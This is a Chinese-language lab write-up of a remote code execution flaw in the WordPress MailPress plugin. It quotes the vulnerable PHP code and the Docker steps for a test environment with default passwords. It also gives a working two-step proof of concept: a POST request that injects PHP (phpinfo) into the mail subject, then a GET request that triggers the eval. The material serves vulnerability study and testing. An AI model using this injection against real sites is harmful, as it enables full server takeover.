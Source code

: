 ## WordPress Mailpress Plugin 远程代码执行漏洞

### 漏洞信息

 * [WordPress Mailpress Plugin 远程代码执行漏洞](http://0day5.com/archives/3960)

WordPress Mailpress Plugin  插件中, `mailpress/mp-includes/class/MP_Actions.class.php` 文件中 `iview` 函数中 `subject` 参数未经过滤，直接拼接do_eval函数执行代码，而do_eval函数也未经任何过滤，导致远程代码执行漏洞。

### 漏洞相关代码

```
public static function iview(){
    $mp_general = get_option(MailPress::option_name_general);

    $id = $_GET["id"];
    $main_id = (isset($_GET["main_id"])) ? $_GET["main_id"] : $id;

    $mail = MP_Mail::get($id);

    $theme = (isset($_GET["theme"]) && !empty($_GET["theme"])) ? $_GET["theme"] : (!empty($mail->theme) ? $mail->theme : false);
    $mp_user_id = (isset($_GET["mp_user_id"]) && !empty($_GET["mp_user_id"])) ? $_GET["mp_user_id"] : false;

    // from
    $from = (!empty($mail->fromemail)) ? MP_Mail::display_toemail($mail->fromemail, $mail->fromname) : MP_Mail::display_toemail($mp_general["fromemail"], $mp_general["fromname"]);
    // to
    $to = MP_Mail::display_toemail($mail->toemail, $mail->toname, ", $mp_user_id);
    // subject
    $x = new MP_Mail();
    
    //
    // 注意这里调用了 do_eval
    //
    $subject = (in_array($mail->status, array("sent", "archived"))) ? $mail->subject : $x->do_eval($mail->subject);
    //
    $subject = $x->viewsubject($subject, $id, $main_id, $mp_user_id);
    // template
    
    ...
}
```

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123


### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:w_wordpress_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_2
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

### PoC 使用

1. 使用攻击代码触发漏洞

 ```
http://你的 IP 地址:端口号/wp-content/plugins/mailpress/mp-includes/action.php
 ```

 POST data:

 ```
action=autosave&id=0&revision=-1&toemail=&toname=&fromemail=&fromname=&to_list=1&Theme=&subject=<?php phpinfo();?>&html=&plaintext=&mail_format=standard&autosave=1
 ```

 返回结果如下：

 ```
<wp_ajax><response action="autosave_2"><autosave id="2" old_id="2" position="1"><response_data>Draft saved at pm5:58:36.</response_data><supplemental><tipe>mail</tipe></supplemental></autosave></response></wp_ajax>
 ```

 记录 autosave 中的 id 的值，留作下一步使用

2. 访问存在漏洞页面获取结果

 ```
http://你的 IP 地址:端口号/wp-content/plugins/mailpress/mp-includes/action.php?action=iview&id=上一步中返回的文章id号
 ```
